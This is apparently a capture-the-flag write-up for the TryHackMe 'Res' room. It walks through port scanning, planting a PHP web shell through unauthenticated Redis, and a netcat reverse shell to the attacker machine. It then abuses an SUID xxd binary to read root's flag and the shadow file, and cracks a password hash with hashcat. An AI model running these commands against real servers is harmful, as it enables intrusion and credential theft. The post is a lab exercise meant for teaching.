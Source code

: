 ```yaml
---
layout: post
title: THM RES  writeup
excerpt_separator: <!--more-->
---
```

<img src="/img/res/0.head.png">
<!--more→
<p></p>
<a href="https://tryhackme.com/room/res" target="_blank" > Click here to access this box on tryHackMe.com</a>
<hr>


<p>Enumerating  ports with a basic NMAP Scan.</p>
<img src="/img/res/1.nmap-scan-1.png">

<p>Only one port shows to be open. Let’s enumerate it further for version,service and os detection. </p>
<img src="/img/res/2.nmap-scan-2.png">

<p>Now let's check all 65k ports with nmap.</p>
<p>We only have two open ports. Port 80 running Apache and port 6379 running Redis db. version 6.0.7</p>
<img src="/img/res/4.nmap-scan-2.png">

<p>Navigating in a web browser to port 80 we find the default Apache web page. Let’s quickly check the source code, start up gobuster. </p>
<img src="/img/res/3.defult-apache-page.png">

<p>Nothing of interest in the default web page’s source code. Let’s get gobuster working on brute forcing sub directories</p>
<img src="/img/res/5.gobuster-start.png">

<p>while we wait on gobuster, let’s do some research on the Redis 6.0.7 db </p>


<p>After installing the redis-server on my local machine and enumerating the Redis db I discovered I could connect to the db via shell with no authentication. I also found a possible username vianka by running the info command  </p>
<img src="/img/res/6.Redis-db-enum.png">


<p>Since ssh isn’t open we’re going to need a webshell.</p>
<p> here’s a link to an article about this https://book.hacktricks.xyz/pentesting/6379-pentesting-redis  
<img src="/img/res/7.hacktricks-webshell.png">

<p>I assumed the Apache was serving the site in the default directories due to the default web page I found.In the Redis-cli I changed the dir to /var/www/html and set the db file name to shell.php</p>
<p>config set dir /var/www/html</p>
<p>config set dbfilename shell.php</p>
<p> set test "php commad here"</p>

<img src="/img/res/8.redis-commands-test-php.png">

<p>Navigating to [host ip]/redis.php  we can confirm the php is working. Now we need to upload a php reverse shell payload</p>
<img src="/img/res/9.php-test-payload.png">

<p>Let’s setup a listener with netcat on our local machine </p>
<img src="/img/res/10.setup-listner.png">

<p>Now change test to "php system get command here" using the redis-cli </p>
<img src="/img/res/12.php-oneliner.png">

<p> now we can issue command injection in the web browser</p>
<p>http://[host]/Redis.php?cmd=nc [attack machine] [port] -e /bin/sh</p>



<p>Now we have a shell on the host</p>
<img src="/img/res/16.first-shell.png">




<p>Now we have a shell on the host</p>
<img src="/img/res/16.first-shell.png">

<p>Let’s cat the user.txt file and begin eumurnating for a privilege escalation </p>
<img src="/img/res/17.cat.user.txt.png">



<p>If you run linpease there will find the xxd binary with SUID set. Let’s check GTFObins </p>
<img src="/img/res/19.gtfo.bins.png">

<p>here's how I abused the xxd binary:  </p>
<p>LFILE=/root/root.txt  </p>
<p> usr/bin/xxd "$LFILE" | xxd -r usr/bin/xxd "$LFILE" | xxd -r </p>
<img src="/img/res/18.root.txt.png">

<p>To complete the box we still need the local users password. Let’s abuse the xxd binary so we read the shadow file. Copy the users hash and try and crack it offline</p>
<img src="/img/res/20.user-hash.png">

<p>Here I used a hashcat with the rockyou password list, set the mode to 1800 and hashcat cracked the password in 5 seconds. Now we can complete this box with the user password.   </p>
<img src="/img/res/22.hashcat.png">
